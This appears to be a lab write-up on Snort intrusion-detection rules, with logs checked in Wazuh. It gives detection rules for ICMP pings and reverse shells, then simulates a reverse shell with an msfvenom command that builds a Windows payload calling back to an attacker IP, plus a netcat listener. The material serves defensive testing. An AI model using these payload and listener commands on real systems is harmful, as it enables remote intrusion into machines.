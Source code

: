##

### Ping attack
rule Snort:
```bash
alert icmp any any -> any any (msg:"ICMP Ping Detected"; itype:8; dsize:0; sid:1000001; rev:1;)
```

check log in Wazuh-Server:
![alt text](/assets/image-2.png)

### Reverse shell attack

In Snort, we will create a rule to detect reverse shell attacks. The rule will look for specific patterns in the traffic that indicate a reverse shell connection.
```bash
alert tcp any any -> any any (msg:"Netcat reverse shell"; content:"/bin/sh"; sid:100001; rev:1;)

alert tcp any any -> any any (msg:"Possible Reverse Shell - Windows CMD Banner"; content:"Microsoft Windows"; sid:1001001; rev:1;)
```

To simulate a reverse shell attack, we will use `msfvenom` to create a payload that will connect back to the Attacker machine. The steps are as follows:

1. Create a reverse shell payload using msfvenom:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.81.1.128 LPORT=4444 -f exe -o reverse_shell.exe
```
2. Transfer the payload to the Victim machine using a file transfer method (e.g., SCP, FTP, or a web server).

3. In attacker machine, start a listener 
```bash
nc -lvnp 4444
```
